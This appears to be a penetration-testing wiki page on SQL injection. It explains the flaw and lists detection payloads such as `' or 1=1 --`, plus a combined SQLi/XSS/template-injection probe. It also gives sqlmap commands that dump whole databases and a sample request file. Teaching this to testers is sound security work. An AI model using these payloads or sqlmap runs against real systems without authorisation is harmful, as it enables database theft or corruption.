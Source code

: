 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters \(`'`, `"`, `#`, `;`, `)`, `*`,`%`\) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

### Manuel testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```text
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

{% hint style="warning" %}
GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs \(parameters, user-agents, cookies...\)
{% endhint %}

The following payload is used for testing SQL injections, [XSS \(Cross-Site Scripting\)](xss-cross-site-scripting.md) and [SSTI \(Server-Side Template Injection\)](ssti-server-side-tempate-injection.md).

```text
'"<svg/onload=prompt(5);>{{7*7}}
```

### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) \(Python\) or [SQLninja](https://github.com/xxgrunge/sqlninja) \(Perl\) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases \(like overwriting or deleting data\) could have a serious fallout.
{% endhint %}

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request \(line, headers, empty line, optional data\). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy \(like Burp Suite\), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## References

{% embed url="https://www.asafety.fr/mysql-injection-cheat-sheet/" caption="" %}

{% embed url="https://owasp.org/www-community/attacks/SQL\_Injection" caption="" %}

{% embed url="https://portswigger.net/web-security/sql-injection" caption="" %}

{% embed url="http://pentestmonkey.net/category/cheat-sheet/sql-injection" caption="SQL injection cheatsheets \(MSSQL, MySQL, Oracle SQL, Postgres SQL, ...\)" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" caption="" %}

